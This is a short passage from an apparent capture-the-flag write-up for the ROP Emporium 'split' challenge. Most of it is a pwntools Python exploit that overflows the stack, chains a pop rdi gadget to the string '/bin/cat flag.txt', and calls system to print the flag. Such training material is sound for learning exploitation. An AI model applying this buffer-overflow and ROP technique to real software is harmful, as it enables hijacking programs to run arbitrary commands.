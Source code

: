 ```python
junk = 'A'*40 #Controlling RIP Register
usefulString = p64(exe.symbols.usefulString) #/bin/cat flag.txt
system = p64(exe.symbols.system) #Creating the system call
pop_rdi = p64(0x00400883) #Putting the string onto RDI

payload = ""
payload += junk
payload += pop_rdi
payload += usefulString
payload += system

io = start()
io.recvuntil('> ')
io.sendline(payload)
log.success('Flag: ' + io.recv(512))
```

{{< image classes="fancybox center" src="/img/posts/2019/08/ropemporium-1-split/image-13.png" title="Flag" >}}

GitHub: [https://github.com/Securitybits-io/ROPEmporium](https://github.com/Securitybits-io/ROPEmporium)
